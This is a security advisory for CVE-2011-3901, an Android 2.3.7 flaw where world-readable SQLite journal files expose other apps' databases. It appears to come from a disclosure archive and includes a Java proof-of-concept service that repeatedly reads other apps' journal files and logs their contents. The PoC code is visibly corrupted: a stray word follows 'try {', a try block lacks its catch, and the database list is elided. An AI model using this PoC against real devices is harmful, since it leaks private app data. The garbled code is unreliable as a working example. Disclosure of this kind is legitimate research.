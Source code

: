 ```yaml
---
layout: vuln
credit:
    - roeeh

timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-05-03' 
alephid: ALEPH-2011001
cve: CVE-2011-3901
date: '2012-05-03'
title: 'Android SQLite Journal Information Disclosure '
severity: high
product:
    - Android 2.3.7
mitigation: 
    - Install Android 4.0.1
references:
    - src: Paper
      url: http://blog.watchfire.com/files/androidsqlitejournal.pdf
---
```

The journal file of SQLite databases can be read by all applications:
* The application's data directory has execution rights for all users, up to the root. This means that files with read or write permissions for all users, found under the application's data directory are actually globally accessible.
* The /data/data/<app package>/databases directory is created with [rwxrwx--x] permissions, meaning that files under that dir with global read or write permissions, are globally readable or writable.
* The journal file is created under the databases directory with [-rw-r--r--] permissions and therefore it can be read by all apps.

*Conclusion:* All databases maintained by Android's SQLite engine (unless named with a random and unguess-
able string) can be leaked by malicious applications without the need to declare adequate privileges. The
databases can be leaked during the lifetime of the journal file, (i.e. when the transaction is made).


## Proof-of-Concept ##
```java
public class SqlliteJournalLeakActivity extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.main);
        final Intent intent = new Intent(this, com.ibm.android.sqllitejournal.SqlliteJournalLeakService.class);
        final PendingIntent pending = PendingIntent.getService(this, 0, intent, 0);
        final AlarmManager alarm = (AlarmManager) this.getSystemService(Context.ALARM_SERVICE);
        alarm.cancel(pending);
        long interval = 30;
        alarm.setRepeating(AlarmManager.ELAPSED_REALTIME, SystemClock.elapsedRealtime(),interval, pending);
    }
}
public class SqlliteJournalLeakService extends Service {
    private final String[] DATABASES = {
        [... see paper ...]
    };
    
    private final IBinder mBinder = new SqlliteJournalLeakServiceBinder();
    private HashMap<String, Long> mLastChanges = new HashMap<String, Long>();
    private FileOutputStream mLog;
   
    @Override
    public void onCreate() {
        try {quick
        mLog = openFileOutput("leak.log", MODE_APPEND);
        } catch (FileNotFoundException e) {}
    }
    
    @Override
    public int onStartCommand(Intent intent, int flags, int startId)
    {
        trackChanges();
        return START_STICKY;
    }
    
    private void trackChanges()
    {
        for (String name : DATABASES)
        {
            name = "/data/data" + name + "-journal";
            File f = new File(name);
            if (!f.exists())
            {
                continue;
            }
            if (!mLastChanges.containsKey(name))
            {
                mLastChanges.put(name, f.lastModified());
                handleChange(f);
            }
            long m = f.lastModified();
            if (mLastChanges.get(name) >= m)
                continue;
            mLastChanges.put(name, m);
            handleChange(f);
        }
    }
    private void handleChange(File file)
    {
        log(file.getAbsolutePath(), getPrintable(file));
    }
    private void log(String pkg, String data)
    {
        String line = pkg + ":\n\n" + data + "\n================================\n";
        try
        {
            mLog.write(line.getBytes());
            mLog.flush();
        }
        catch (IOException e) {}
    }
  
    private static String getPrintable(File journal)
    {
        String printable = "";
        int len = 0;
        FileReader fr;
 
        try {
            fr = new FileReader(journal);
            char[] buffer = new char[1024];
            while (-1 != (len = fr.read(buffer)))
            {
                for (int i = 0 ; i < len ; i++)
                {
                if (filter(buffer[i]))
                    printable += buffer[i];
                }
            }
        }
    }
    private static boolean filter(char ch)
    {
        switch (ch)
        {
            case '\n':
            case '\r':
            case '\t':
                return true;
        }
        if ((ch >= 0x20) && (ch <= 0x80))
            return true;
        return false;
    }
    public class SqlliteJournalLeakServiceBinder extends Binder {
        SqlliteJournalLeakService getService() {
            return SqlliteJournalLeakService.this;
        }
    }
    @Override
    public IBinder onBind(Intent intent) {
        return mBinder;
    }
}
```
